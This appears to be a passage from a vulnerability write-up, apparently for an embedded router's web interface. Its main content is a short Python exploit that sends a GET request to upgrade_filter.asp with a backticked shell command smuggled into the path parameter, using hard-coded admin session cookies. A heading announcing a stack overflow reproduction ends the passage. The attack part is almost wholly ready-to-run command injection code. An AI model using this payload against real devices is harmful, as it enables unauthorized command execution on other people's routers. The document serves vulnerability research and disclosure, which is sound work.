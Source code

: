 ![](vx_images/146764323130697.png)


![](vx_images/350383366357963.png)

exp：

```

import requests

burp0_url = "http://192.168.0.1:80/upgrade_filter.asp?path=http://`ps%20%3E%20/longlong.txt`"
burp0_cookies = {"uid": "h3r4yvoOTp", "wys_userid": "admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
burp0_headers = {"Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.71 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Accept-Encoding": "gzip, deflate, br", "Accept-Language": "zh,en-US;q=0.9,en;q=0.8", "Connection": "close"}
requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)

```


# 4、第三个栈溢出漏洞复现：
